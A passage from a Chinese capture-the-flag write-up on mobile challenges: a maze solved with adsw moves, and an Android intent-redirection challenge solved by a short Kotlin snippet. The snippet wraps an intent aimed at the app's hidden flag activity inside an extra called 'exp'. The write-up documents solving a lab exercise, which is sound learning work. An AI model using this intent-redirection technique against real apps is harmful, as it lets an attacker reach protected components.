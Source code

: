 最后两位m和\n是猜出来的，有没有大佬帮忙解释一下为什么v8会覆盖到v7的后面？

### mobile-3 MAZE

想起了上一届的题目，不过这次用android写的，幸运的是没用so。。。

源码含义是题目给了一个地图，走24步从@走到#号，adsw分别代表左右下上，最后行走的路径就是flag。拆了一下代码，大概能看出个样子。

![maze_map](./mobile-3-1.png)

### mobile-4 重定向初探

理论上自己构造一个intent，然后把exp的intent指向flag activity。

![APP onCreate](./mobile-4-1.png)

```kotlin
fun test() {
    binding.testButton.setOnClickListener {
        val intent = Intent("ACTION_SHARE_TO_ME")
        intent.component = ComponentName("com.mictf.intent0", "com.mictf.intent0.MainActivity")
    
        val next = Intent()
        next.setClassName("com.mictf.intent0", "com.mictf.intent0.flag")
    
        intent.putExtra("exp", next)
        startActivity(intent)
    }
}
```
